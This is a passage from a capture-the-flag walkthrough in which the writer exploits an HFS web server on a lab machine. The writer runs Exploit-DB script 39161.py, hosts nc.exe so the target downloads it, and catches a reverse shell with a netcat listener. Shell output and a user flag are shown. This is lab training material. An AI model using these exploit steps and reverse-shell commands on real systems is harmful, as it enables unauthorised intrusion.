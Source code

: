 First, we start a listener with `sudo nc -lvnp 80` before executing the Python script with `python 39161.py 10.10.10.8 80`.
```
hippoeug@kali:~$ sudo nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.x.x] from (UNKNOWN) [10.10.10.8] 49322
GET /nc.exe HTTP/1.1
Accept: */*
Accept-Language: el
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.3; WOW64; Trident/7.0; .NET4.0E; .NET4.0C)
Host: 10.10.14.16
Connection: Keep-Alive
```
Interesting, we get a `GET /nc.exe HTTP/1.1` request. And sure enough, on the comments of the Python script, it mentions `EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe)`.

Let's host a `nc.exe` using Python SimpleHTTPServer on Port 80.
```
hippoeug@kali:~/Documents$ sudo python -m SimpleHTTPServer 80
[sudo] password for hippoeug: 
Serving HTTP on 0.0.0.0 port 80 ...
```

We also need to change our port on our Python script to something else, since 80 is used to host `nc.exe`. We will use 443.
```
hippoeug@kali:~$ nano 39161.py
...
        ip_addr = "10.10.x.x" # Local IP address
        local_port = "443" # Local Port number
...
```
After which, we start a listener again on Port 443 with `sudo nc -lvnp 443` and execute the Pythohn script with `python 39161.py 10.10.10.8 80`.
```
hippoeug@kali:~$ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.8] 49330
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Users\kostas\Desktop>

C:\Users\kostas\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\kostas\Desktop

09/01/2021  04:47 ��    <DIR>          .
09/01/2021  04:47 ��    <DIR>          ..
18/03/2017  02:11 ��           760.320 hfs.exe
18/03/2017  02:13 ��                32 user.txt.txt
               2 File(s)        760.352 bytes
               2 Dir(s)  31.899.250.688 bytes free
```
Success! Let's get our first flag!
```
C:\Users\kostas\Desktop>type user.txt.txt
type user.txt.txt
d0c39409d7b994a9a1389ebf38ef5f73
```
We now need to get the system flag.
